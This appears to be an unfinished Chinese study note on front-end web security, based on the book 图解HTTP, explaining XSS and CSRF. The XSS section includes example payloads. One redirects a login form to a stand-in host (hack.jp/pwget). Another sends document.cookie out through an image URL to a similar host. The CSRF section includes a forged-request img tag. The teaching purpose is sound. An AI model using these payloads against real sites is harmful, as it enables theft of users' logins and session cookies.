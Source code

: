 # Web 前端安全

__前言:__网络安全一直是风口浪尖，尤其这几年随着前端的发展和变化，前端的安全问题日益突出多学习。参考：《图解HTTP》

## XSS 跨站脚本攻击

>定义：

* Cross-Site Scripting 指通过存在安全漏洞的Web网站注册用户的浏览器内运行非法的HTML标签或js运行的一种攻击

>特点：

* 攻击者利用预先设置的陷阱触发的被动攻击
* 在动态生成HTML处生成

>场景：

* 登陆页表单验证

```HTML
ID <input type="text" name="ID" value=""><script> var f = document.getElementById("login"); f.action = "http://hack.jp/pwget";f.method = "get";</script><span s="" />
```

* 恶意构造脚本，窃取用户的Cookie信息

```HTML
<script src="http://hacker.jp/xss.js">
var content = escape(document.cookie);
document.write("<img src=http://hackr.jp/?");
document.write(content);
document.write(">");
```
[讲的比较好的博文](https://blog.csdn.net/ghsau/article/details/17027893)

## CSRF 跨站点请求伪造

>定义：

* 攻击者通过设置好的陷阱，强制对已完成认证的用户进行非预期的个人信息或设定信息等某些状态更新，属于被动攻击。

>过程理解(以留言板为实际场景举例)

* 用户在留言板登陆，认证通过得到cookie：sid

* 攻击者在留言板上留下含恶意代码的评论如：

    ```HTML
    <img src="http://example.com/msg?q=你好">
    ```

* 用户触发陷阱，攻击者利用用户的权限发表用户非主观的动作（也就相当于是冒用别人的名义做一些事情），因为此时用户的浏览器的Cookie持有已认证的会话ID。

## 未完待续
